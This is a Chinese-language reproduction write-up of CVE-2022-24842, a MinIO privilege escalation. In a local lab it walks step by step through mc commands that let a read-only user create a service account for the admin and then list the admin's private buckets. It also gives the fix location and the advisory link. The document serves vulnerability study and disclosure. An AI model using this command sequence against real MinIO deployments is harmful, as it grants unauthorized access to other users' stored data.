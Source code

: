 # CVE-2022-24842 minio privilege escalation

## 漏洞信息
- 漏洞类型：权限提升
- 漏洞版本：RELEASE.2022-04-12T06-55-35Z to RELEASE.2022-04-12T06-55-35Z(exclude)
- 漏洞简介：普通用户可以为包括管理员在内的其他用户创建子账号，通过子账号获取权限

## repo介绍
minio是一个提供存储桶功能的服务器，目前在github上已有33k个star

## 漏洞分析
这里配置了`RELEASE.2022-04-09T15-09-52Z`版本的minio服务，使用下面的[mc](https://docs.min.io/docs/minio-client-quickstart-guide.html)指令进行复现。首先使用管理员账户创建一个名为`foo`的普通用户代表攻击者，权限设置为`readonly`
```yaml
mc admin user add localadmin foo foobar123 #创建用户
mc admin policy set localadmin readonly user=foo #设置为只读
```
一个名为`foo`的普通用户被创建了

![image](images/1.png)

然后使用这个用户创建一个`host`
```yaml
mc config host add localfoo  http://localhost:9000  foo foobar123 #创建host
mc config host ls #列出所有的host
```
显示成功添加

![image](images/2.png)

然后使用这个`host`为管理员添加一个子用户
```yaml
mc admin user svcacct add localfoo minio 
```
显示出随机生成的用户名和密码

![image](images/3.png)

同时管理界面可以看到管理员子用户的记录

![image](images/4.png)

用这个账号创建一个`host`
```yaml
mc config host add localevil http://127.0.0.1:9000 QZ4RUZHYWC548EKQ678Z bRHLiBlnpY+Pc5BRqYEWRsHMklByop+fSOl4w15M
```
显示创建成功

![image](images/5.png)

使用这个`host`访问admin私有的存储桶

![image](images/6.png)

显示访问成功
```yaml
$ mc ls  localevil 
[2022-05-06 11:56:15 CST]     0B test/
$ mc ls  localadmin
[2022-05-06 11:56:15 CST]     0B test/
```
## 修复方式
在[cmd/admin-handlers-users.go](https://github.com/minio/minio/blob/master/cmd/admin-handlers.go)增加了逻辑校验
![image](images/8.png)
## 参考链接
- https://github.com/minio/minio/security/advisories/GHSA-2j69-jjmg-534q